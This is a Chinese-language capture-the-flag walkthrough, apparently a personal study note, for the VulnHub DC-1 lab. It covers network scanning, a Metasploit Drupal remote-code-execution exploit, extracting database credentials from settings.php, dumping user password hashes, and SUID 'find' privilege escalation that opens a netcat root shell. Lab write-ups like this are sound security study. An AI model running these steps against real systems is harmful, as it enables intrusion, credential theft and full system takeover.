 # DC1 

 - [参考资料](https://mzfr.github.io/vulnhub-writeups/2019-07-12-DC1)
 - [参考资料](https://www.jianshu.com/p/b659f4619c88)

 - [下载地址](https://www.vulnhub.com/entry/dc-1,292/)

首先导入虚拟机 记得关掉 虚拟机中的 ![](img/2.png) USB 设置 并更改对应的网络中的网卡。


打开虚拟机会看到这样的画面
![](img/1.png)

使用nmap扫描一下网段 查看靶场是那个ip

```
nmap -sP 192.168.31.0/24
```
![](img/3.png)

```
nmap -sT -sV -T5 -A -p 192.168.31.42
```

我们扫描出了一些常用端口，让我们从网站开始。

查看 `192.168.31.35:80`


发现目标cms 是 Drupal Site 6，7，8多个版本存在远程代码执行.丢硬币选一个吧！😜
![](img/5.png)

搜索发现Drupal Site有不少漏洞 我们尝试一下 `CVE-2018-7600` 使用 MSF 尝试一下

```
use exploit/unix/webapp/drupal_drupalgeddon2
options
set RHOSTS 192.168.31.35
exploit
```
![](img/6.png)

![](img/7.png)

拿到meterpreter。

ls查看一波

![](img/8.png)

百度搜索发现，drupal的数据库配置文件在 `sites/default/settings.php` 

```
cat sites/default/settings.php
```
![](img/9.png)
得到数据库连接信息


顺便还有 Flag2 的信息
![](img/10.png)
```
暴力破解和字典攻击并不是获得访问权限的唯一途径(你也需要访问权限)。你能用这些凭证做什么
```

执行如下命令：
```
meterpreter > shell
python -c "import pty;pty.spawn('/bin/bash')"
www-data@DC-1:/var/www/sites/default$ //执行完之后可获得python提供的标准shell
```

输入 `mysql -u dbuser -pR0ck3t` 连接数据库

![](img/11.png)

查看所有数据库

```
show databases;
information_schema 
drupaldb 
```

查询一下数据库中的表
```
select table_name from information_schema.tables where table_schema='drupaldb' and table_type='base table';
```

![](img/13.png)


查看一波users 表

```
select column_name from information_schema.columns where table_schema='drupaldb' and table_name='users';
```

```
select column_name from information_schema.columns where table_schema='drupaldb' and table_name='users';
```

查询表 中数据 
```
select name,pass from users;
```
![](img/14.png)

只能抓取后跑一下 `hashcat` 
(略 因为我没成功 )

最后在神奇的百度下知道了admin 的 密码。
`53cr3t`

![](img/11、.png)

这就找到了 `flag3` (其实全靠百度)

![](img/15.png)

更具flag3中的提示 我们直接去passwd文件中查看一下

![](img/16.png)

本来打算搜一下flag4的没想到flag1文件也找到了 先看看flag1是啥

![](img/17.png)

那 没 事 了 。

```
cat /home/flag4/flag4.txt
```

![](img/18.png)


就我不配呗？

尝试找到具有root权限的suid
```
find / -perm -u=s -type f 2>/dev/null
```
![](img/19.png)

发现其中 有 find 命令可以执行

## find提权

-[suid 提权教程](https://blog.csdn.net/qq_36119192/article/details/84872644)

可以看到find命令以root权限运行。
`使用find 命令执行 whoami `
/usr/bin/find  -exec whoami \;

![](img/20.png)

/usr/bin/find -exec nc -lvp 9999 -e /bin/sh \;


![](img/21.png)

我是把脑袋塞到马桶里都想不出来。

![](img/22.png)

结束了！！！ 加油 奥里给

## 总结

该靶场大致要点为： 
1. Metasploit的EXP使用
2. drupal 7的漏洞
3. hashcat 爆破
4. find 提权

更新笔记：
1. 内网渗透
2. 渗透工具
3. 提权骚操作












